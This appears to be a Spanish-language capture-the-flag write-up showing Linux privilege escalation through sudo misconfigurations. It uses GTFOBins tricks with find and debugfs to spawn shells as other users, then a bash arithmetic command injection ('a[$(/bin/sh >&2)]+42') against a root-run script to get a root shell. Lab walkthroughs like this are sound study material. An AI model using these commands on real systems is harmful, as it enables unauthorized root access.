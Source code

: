 ## Escalada de Privilegios

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `find` como `rafa`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/f57bface-0238-4467-991f-ded32caab1d3)

Ejecutamos lo siguiente:

```bash
sudo -u rafa /usr/bin/find . -exec /bin/sh \; -quit
```
Ya estamos dentro de rafa 

![image](https://github.com/user-attachments/assets/607cdfd6-f991-4819-90db-8ddb777449b6)

# Intrusion ruben

Al ejecutar `sudo -l`, notamos que tiene permisos para ejecutar `debugfs` como `ruben`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/77ac62c0-e2f6-4b14-9641-06a0f333f5d1)

Ejecutamos lo siguiente

```bash
sudo -u ruben /usr/sbin/debugfs
```
y despues 

```bash
!/bin/sh
```
![image](https://github.com/user-attachments/assets/29ec0a98-7c23-4a9b-9105-a1a790670dce)

Ahora tenemos que escalar con el usuario `ruben`.

Volvemos a ejecutra `sudo -l`, notamos que tiene permisos para ejecutar `bash` como `root` en el archivo `/opt/penguin.sh
`.Utilizando [GTFOBins](https://gtfobins.github.io/) sabemos cómo explotar estos binarios.

Si vemos su codigo podremos ver que nos estamos enfrentando a un [Bash eq Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/bash-eq-privilege-escalation/):

![image](https://github.com/user-attachments/assets/6400ef1b-b308-4ac1-a5bb-3db6c02ca200)

El script en bash realiza una comparacion de numeros, si vemos el codigo podremos ver que lo compara con el valor 42 asi que probaremos a ejecutar un comando:
```bash
a[$(date >&2)]+42
```
![image](https://github.com/user-attachments/assets/ae198b81-fbd2-41c0-870e-bfb8ab1b01d6)

Por lo que ahora generaremos una shell root

```bash
a[$(/bin/sh >&2)]+42
```
![image](https://github.com/user-attachments/assets/6936a7cd-d26a-43d0-9b19-c55666d1719d)

Ya somos root
